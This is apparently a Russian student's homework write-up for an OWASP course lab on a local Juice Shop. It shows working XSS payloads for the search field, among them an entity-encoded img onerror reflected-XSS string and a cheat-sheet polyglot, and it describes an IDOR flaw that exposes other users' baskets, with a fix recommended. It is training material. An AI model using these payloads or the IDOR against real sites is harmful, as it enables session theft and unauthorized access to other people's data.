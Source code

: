 # Домашнее задание к занятию «2.2. OWASP»
## Задание «Поиск»
### Этапы выполнения

1. Проверьте поле поиска на сайте на подверженность XSS.
2. Проанализируйте, возможно ли ссылку, полученную в результате ввода в строку поиска, передать другому человеку, чтобы получить Reflected XSS. 

### Решение задания

В качестве решения пришлите:
1. Использованные данные для ввода.  
Для внедрения XSS можно использовать самый простой тег с обработкой событий:  
`<a onmouseover="alert(document.cookie)"\>xxs link\</a\>`  
![](simple-xss.png)  
При этом такую ссылку нельзя использовать для получения `Reflected XSS`, т.к. браузер кодирует строку `url`  
Пример: `http://localhost:3000/#/search?q=%3Ca%20onmouseover%3D%22alert(document.cookie)%22%5C%3Exxs%20link%5C%3C%2Fa%5C%3E`  

Можно использовать например такую строку:  
`<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">`  
![](reflected-xss.png) 
2. Пункт из XSS Cheat Sheet, в котором содержится пример для проверки подверженности поля поиска XSS.  
Пункт `XSS Locator (Polygot)`
Для теста использовал - `<svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>`
После поиска получил такую разметку - `<svg onload="+/&quot;/+/onmouseover=1/+/[*/[]/+alert(1)//"></svg>`  

## Задание «Чужая корзина»

Найдите IDOR в корзине. Посмотрите, что лежит в чужих корзинах. 

### Этапы выполнения

1. Положите что-то в свою корзину. 
2. Откройте саму корзину и инструменты разработчика. 
3. Проанализируйте, что лежит в куках и локальном хранилище. Попробуйте изменить данные, обновите страницу. 

### Решение задания

В качестве решения пришлите:
1. Наименование параметра, который отвечает за открываемую корзину.  
Параметр `bid` в хранилище сеанса  
![](session-store.png) 
![](basket-req.png) 
 
2. Ваши рекомендации по исправлению этой незначительной уязвимости.  

Запрос данных корзины по идентификатору защищен проверкой авторизационной куки, однако нет проверки владельца корзины.
Хотя в ответе на запрос `http://localhost:3000/rest/basket/5`  
есть UserId владельца. Необходимо добавить разграничение доступа к корзинам по идентификатору владельца.
![](error-unauthorized.png) 
Запрос карзины:  
```
{
  "status": "success",
  "data": {
    "id": 5,
    "coupon": null,
    "UserId": 16,
    "createdAt": "2023-01-30T07:53:32.495Z",
    "updatedAt": "2023-01-30T07:53:32.495Z",
    "Products": [
      {
        "id": 3,
        "name": "Канистелевый сок (500мл)",
        "description": "Now with even more exotic flavour.",
        "price": 8.99,
        "deluxePrice": 8.99,
        "image": "eggfruit_juice.jpg",
        "createdAt": "2023-01-30T07:53:32.209Z",
        "updatedAt": "2023-01-30T07:53:32.209Z",
        "deletedAt": null,
        "BasketItem": {
          "ProductId": 3,
          "BasketId": 5,
          "id": 7,
          "quantity": 5,
          "createdAt": "2023-01-30T07:53:32.570Z",
          "updatedAt": "2023-01-30T07:53:32.570Z"
        }
      },
      {
        "id": 4,
        "name": "Малиновый сок (1000мл)",
        "description": "Made from blended Raspberry Pi, water and sugar.",
        "price": 4.99,
        "deluxePrice": 4.99,
        "image": "raspberry_juice.jpg",
        "createdAt": "2023-01-30T07:53:32.209Z",
        "updatedAt": "2023-01-30T07:53:32.209Z",
        "deletedAt": null,
        "BasketItem": {
          "ProductId": 4,
          "BasketId": 5,
          "id": 8,
          "quantity": 2,
          "createdAt": "2023-01-30T07:53:32.570Z",
          "updatedAt": "2023-01-30T07:53:32.570Z"
        }
      }
    ]
  }
}
```
